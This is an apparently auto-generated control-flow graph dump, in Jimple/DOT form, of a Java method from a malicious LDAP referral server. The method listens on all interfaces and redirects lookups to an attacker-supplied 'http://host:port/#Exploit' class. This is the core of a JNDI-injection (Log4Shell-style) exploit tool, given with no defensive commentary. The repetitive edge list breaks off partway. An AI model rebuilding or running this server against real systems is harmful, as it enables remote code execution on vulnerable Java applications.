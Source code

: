 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 42 ]
r5 := @parameter0: java.lang.Integer;
r14 := @parameter1: java.lang.String;
r17 := @parameter2: java.lang.Integer;
"
    "Block 1:
[preds: 0 ] [succs: 2 42 ]
$r0 = new com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
"
    "Block 2:
[preds: 1 ] [succs: 3 42 ]
$r1 = newarray (java.lang.String)[1];
"
    "Block 3:
[preds: 2 ] [succs: 4 42 ]
$r1[0] = \"dc=example,dc=com\";
"
    "Block 4:
[preds: 3 ] [succs: 5 42 ]
specialinvoke $r0.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void <init>(java.lang.String[])>($r1);
"
    "Block 5:
[preds: 4 ] [succs: 6 42 ]
r28 = $r0;
"
    "Block 6:
[preds: 5 ] [succs: 7 42 ]
$r2 = newarray (com.unboundid.ldap.listener.InMemoryListenerConfig)[1];
"
    "Block 7:
[preds: 6 ] [succs: 8 42 ]
$r3 = new com.unboundid.ldap.listener.InMemoryListenerConfig;
"
    "Block 8:
[preds: 7 ] [succs: 9 42 ]
$r4 = staticinvoke <java.net.InetAddress: java.net.InetAddress getByName(java.lang.String)>(\"0.0.0.0\");
"
    "Block 9:
[preds: 8 ] [succs: 10 42 ]
$i0 = virtualinvoke r5.<java.lang.Integer: int intValue()>();
"
    "Block 10:
[preds: 9 ] [succs: 11 42 ]
$r6 = staticinvoke <javax.net.ServerSocketFactory: javax.net.ServerSocketFactory getDefault()>();
"
    "Block 11:
[preds: 10 ] [succs: 12 42 ]
$r7 = staticinvoke <javax.net.SocketFactory: javax.net.SocketFactory getDefault()>();
"
    "Block 12:
[preds: 11 ] [succs: 13 42 ]
$r8 = staticinvoke <javax.net.ssl.SSLSocketFactory: javax.net.SocketFactory getDefault()>();
"
    "Block 13:
[preds: 12 ] [succs: 14 42 ]
$r9 = (javax.net.ssl.SSLSocketFactory) $r8;
"
    "Block 14:
[preds: 13 ] [succs: 15 42 ]
specialinvoke $r3.<com.unboundid.ldap.listener.InMemoryListenerConfig: void <init>(java.lang.String,java.net.InetAddress,int,javax.net.ServerSocketFactory,javax.net.SocketFactory,javax.net.ssl.SSLSocketFactory)>(\"listen\", $r4, $i0, $r6, $r7, $r9);
"
    "Block 15:
[preds: 14 ] [succs: 16 42 ]
$r2[0] = $r3;
"
    "Block 16:
[preds: 15 ] [succs: 17 42 ]
virtualinvoke r28.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void setListenerConfigs(com.unboundid.ldap.listener.InMemoryListenerConfig[])>($r2);
"
    "Block 17:
[preds: 16 ] [succs: 18 42 ]
$r10 = new server.LDAPServer$OperationInterceptor;
"
    "Block 18:
[preds: 17 ] [succs: 19 42 ]
$r11 = new java.net.URL;
"
    "Block 19:
[preds: 18 ] [succs: 20 42 ]
$r12 = new java.lang.StringBuilder;
"
    "Block 20:
[preds: 19 ] [succs: 21 42 ]
specialinvoke $r12.<java.lang.StringBuilder: void <init>()>();
"
    "Block 21:
[preds: 20 ] [succs: 22 42 ]
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"http://\");
"
    "Block 22:
[preds: 21 ] [succs: 23 42 ]
$r15 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r14);
"
    "Block 23:
[preds: 22 ] [succs: 24 42 ]
$r16 = virtualinvoke $r15.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\":\");
"
    "Block 24:
[preds: 23 ] [succs: 25 42 ]
$r18 = virtualinvoke $r16.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>(r17);
"
    "Block 25:
[preds: 24 ] [succs: 26 42 ]
$r19 = virtualinvoke $r18.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"/#Exploit\");
"
    "Block 26:
[preds: 25 ] [succs: 27 42 ]
$r20 = virtualinvoke $r19.<java.lang.StringBuilder: java.lang.String toString()>();
"
    "Block 27:
[preds: 26 ] [succs: 28 42 ]
specialinvoke $r11.<java.net.URL: void <init>(java.lang.String)>($r20);
"
    "Block 28:
[preds: 27 ] [succs: 29 42 ]
specialinvoke $r10.<server.LDAPServer$OperationInterceptor: void <init>(java.net.URL)>($r11);
"
    "Block 29:
[preds: 28 ] [succs: 30 42 ]
virtualinvoke r28.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void addInMemoryOperationInterceptor(com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor)>($r10);
"
    "Block 30:
[preds: 29 ] [succs: 31 42 ]
$r21 = new com.unboundid.ldap.listener.InMemoryDirectoryServer;
"
    "Block 31:
[preds: 30 ] [succs: 32 42 ]
specialinvoke $r21.<com.unboundid.ldap.listener.InMemoryDirectoryServer: void <init>(com.unboundid.ldap.listener.InMemoryDirectoryServerConfig)>(r28);
"
    "Block 32:
[preds: 31 ] [succs: 33 42 ]
r22 = $r21;
"
    "Block 33:
[preds: 32 ] [succs: 34 42 ]
$r24 = <java.lang.System: java.io.PrintStream out>;
"
    "Block 34:
[preds: 33 ] [succs: 35 42 ]
$r23 = newarray (java.lang.Object)[3];
"
    "Block 35:
[preds: 34 ] [succs: 36 42 ]
$r23[0] = r5;
"
    "Block 36:
[preds: 35 ] [succs: 37 42 ]
$r23[1] = r14;
"
    "Block 37:
[preds: 36 ] [succs: 38 42 ]
$r23[2] = r5;
"
    "Block 38:
[preds: 37 ] [succs: 39 42 ]
$r25 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"[*] LDAP server listening on 0.0.0.0:%d (ldap://%s:%d/Exploit)\", $r23);
"
    "Block 39:
[preds: 38 ] [succs: 40 42 ]
virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>($r25);
"
    "Block 40:
[preds: 39 ] [succs: 41 42 ]
virtualinvoke r22.<com.unboundid.ldap.listener.InMemoryDirectoryServer: void startListening()>();
"
    "Block 41:
[preds: 40 ] [succs: 43 ]
goto [?= return];
"
    "Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
"
    "Block 43:
[preds: 41 42 ] [succs: ]
return;
"
    "Block 0:
[preds: ] [succs: 1 42 ]
r5 := @parameter0: java.lang.Integer;
r14 := @parameter1: java.lang.String;
r17 := @parameter2: java.lang.Integer;
"->"Block 1:
[preds: 0 ] [succs: 2 42 ]
$r0 = new com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
";
    "Block 0:
[preds: ] [succs: 1 42 ]
r5 := @parameter0: java.lang.Integer;
r14 := @parameter1: java.lang.String;
r17 := @parameter2: java.lang.Integer;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 1:
[preds: 0 ] [succs: 2 42 ]
$r0 = new com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
"->"Block 2:
[preds: 1 ] [succs: 3 42 ]
$r1 = newarray (java.lang.String)[1];
";
    "Block 1:
[preds: 0 ] [succs: 2 42 ]
$r0 = new com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 2:
[preds: 1 ] [succs: 3 42 ]
$r1 = newarray (java.lang.String)[1];
"->"Block 3:
[preds: 2 ] [succs: 4 42 ]
$r1[0] = \"dc=example,dc=com\";
";
    "Block 2:
[preds: 1 ] [succs: 3 42 ]
$r1 = newarray (java.lang.String)[1];
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 3:
[preds: 2 ] [succs: 4 42 ]
$r1[0] = \"dc=example,dc=com\";
"->"Block 4:
[preds: 3 ] [succs: 5 42 ]
specialinvoke $r0.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void <init>(java.lang.String[])>($r1);
";
    "Block 3:
[preds: 2 ] [succs: 4 42 ]
$r1[0] = \"dc=example,dc=com\";
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 4:
[preds: 3 ] [succs: 5 42 ]
specialinvoke $r0.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void <init>(java.lang.String[])>($r1);
"->"Block 5:
[preds: 4 ] [succs: 6 42 ]
r28 = $r0;
";
    "Block 4:
[preds: 3 ] [succs: 5 42 ]
specialinvoke $r0.<com.unboundid.ldap.listener.InMemoryDirectoryServerConfig: void <init>(java.lang.String[])>($r1);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 5:
[preds: 4 ] [succs: 6 42 ]
r28 = $r0;
"->"Block 6:
[preds: 5 ] [succs: 7 42 ]
$r2 = newarray (com.unboundid.ldap.listener.InMemoryListenerConfig)[1];
";
    "Block 5:
[preds: 4 ] [succs: 6 42 ]
r28 = $r0;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 6:
[preds: 5 ] [succs: 7 42 ]
$r2 = newarray (com.unboundid.ldap.listener.InMemoryListenerConfig)[1];
"->"Block 7:
[preds: 6 ] [succs: 8 42 ]
$r3 = new com.unboundid.ldap.listener.InMemoryListenerConfig;
";
    "Block 6:
[preds: 5 ] [succs: 7 42 ]
$r2 = newarray (com.unboundid.ldap.listener.InMemoryListenerConfig)[1];
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 7:
[preds: 6 ] [succs: 8 42 ]
$r3 = new com.unboundid.ldap.listener.InMemoryListenerConfig;
"->"Block 8:
[preds: 7 ] [succs: 9 42 ]
$r4 = staticinvoke <java.net.InetAddress: java.net.InetAddress getByName(java.lang.String)>(\"0.0.0.0\");
";
    "Block 7:
[preds: 6 ] [succs: 8 42 ]
$r3 = new com.unboundid.ldap.listener.InMemoryListenerConfig;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 8:
[preds: 7 ] [succs: 9 42 ]
$r4 = staticinvoke <java.net.InetAddress: java.net.InetAddress getByName(java.lang.String)>(\"0.0.0.0\");
"->"Block 9:
[preds: 8 ] [succs: 10 42 ]
$i0 = virtualinvoke r5.<java.lang.Integer: int intValue()>();
";
    "Block 8:
[preds: 7 ] [succs: 9 42 ]
$r4 = staticinvoke <java.net.InetAddress: java.net.InetAddress getByName(java.lang.String)>(\"0.0.0.0\");
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 9:
[preds: 8 ] [succs: 10 42 ]
$i0 = virtualinvoke r5.<java.lang.Integer: int intValue()>();
"->"Block 10:
[preds: 9 ] [succs: 11 42 ]
$r6 = staticinvoke <javax.net.ServerSocketFactory: javax.net.ServerSocketFactory getDefault()>();
";
    "Block 9:
[preds: 8 ] [succs: 10 42 ]
$i0 = virtualinvoke r5.<java.lang.Integer: int intValue()>();
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 10:
[preds: 9 ] [succs: 11 42 ]
$r6 = staticinvoke <javax.net.ServerSocketFactory: javax.net.ServerSocketFactory getDefault()>();
"->"Block 11:
[preds: 10 ] [succs: 12 42 ]
$r7 = staticinvoke <javax.net.SocketFactory: javax.net.SocketFactory getDefault()>();
";
    "Block 10:
[preds: 9 ] [succs: 11 42 ]
$r6 = staticinvoke <javax.net.ServerSocketFactory: javax.net.ServerSocketFactory getDefault()>();
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 11:
[preds: 10 ] [succs: 12 42 ]
$r7 = staticinvoke <javax.net.SocketFactory: javax.net.SocketFactory getDefault()>();
"->"Block 12:
[preds: 11 ] [succs: 13 42 ]
$r8 = staticinvoke <javax.net.ssl.SSLSocketFactory: javax.net.SocketFactory getDefault()>();
";
    "Block 11:
[preds: 10 ] [succs: 12 42 ]
$r7 = staticinvoke <javax.net.SocketFactory: javax.net.SocketFactory getDefault()>();
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 12:
[preds: 11 ] [succs: 13 42 ]
$r8 = staticinvoke <javax.net.ssl.SSLSocketFactory: javax.net.SocketFactory getDefault()>();
"->"Block 13:
[preds: 12 ] [succs: 14 42 ]
$r9 = (javax.net.ssl.SSLSocketFactory) $r8;
";
    "Block 12:
[preds: 11 ] [succs: 13 42 ]
$r8 = staticinvoke <javax.net.ssl.SSLSocketFactory: javax.net.SocketFactory getDefault()>();
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 13:
[preds: 12 ] [succs: 14 42 ]
$r9 = (javax.net.ssl.SSLSocketFactory) $r8;
"->"Block 14:
[preds: 13 ] [succs: 15 42 ]
specialinvoke $r3.<com.unboundid.ldap.listener.InMemoryListenerConfig: void <init>(java.lang.String,java.net.InetAddress,int,javax.net.ServerSocketFactory,javax.net.SocketFactory,javax.net.ssl.SSLSocketFactory)>(\"listen\", $r4, $i0, $r6, $r7, $r9);
";
    "Block 13:
[preds: 12 ] [succs: 14 42 ]
$r9 = (javax.net.ssl.SSLSocketFactory) $r8;
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
virtualinvoke r29.<java.lang.Exception: void printStackTrace()>();
";
    "Block 14:
[preds: 13 ] [succs: 15 42 ]
specialinvoke $r3.<com.unboundid.ldap.listener.InMemoryListenerConfig: void <init>(java.lang.String,java.net.InetAddress,int,javax.net.ServerSocketFactory,javax.net.SocketFactory,javax.net.ssl.SSLSocketFactory)>(\"listen\", $r4, $i0, $r6, $r7, $r9);
"->"Block 15:
[preds: 14 ] [succs: 16 42 ]
$r2[0] = $r3;
";
    "Block 14:
[preds: 13 ] [succs: 15 42 ]
specialinvoke $r3.<com.unboundid.ldap.listener.InMemoryListenerConfig: void <init>(java.lang.String,java.net.InetAddress,int,javax.net.ServerSocketFactory,javax.net.SocketFactory,javax.net.ssl.SSLSocketFactory)>(\"listen\", $r4, $i0, $r6, $r7, $r9);
"->"Block 42:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 ] [succs: 43 ]
$r26 := @caughtexception;
r29 = $r26;
$r27 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r27.<java.io.PrintStream: void println(java.lang.String)>(\"[!] Start LDAP Server fail!\");
